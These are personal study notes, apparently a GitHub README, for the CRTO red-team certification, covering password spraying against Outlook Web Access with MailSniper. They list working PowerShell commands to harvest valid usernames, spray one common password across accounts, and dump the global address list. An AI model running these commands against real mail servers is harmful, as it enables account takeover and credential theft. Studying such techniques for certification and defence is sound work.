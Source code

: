 # CRTO
Mi own notes to pass the CRTO

# Password Spraying

## Mail Sniper

Import the Module

```
ipmo C:\Tools\MailSniper\MailSniper.ps1
```

Check the valid usernames

```
Invoke-UsernameHarvestOWA -ExchHostname mail.domain.local -Domain domain.local -UserList possible_users.txt -OutFile valid.txt
```

Password Spraying

```
Invoke-PasswordSprayOWA -ExchHostname mail.domain.local -UserList valid.txt -Password Summer2022
```

Dump all email accounts

```
Get-GlobalAddressList -ExchHostname mail.domain.local -UserName domain.local\user -Password Password -OutFile users.txt
```
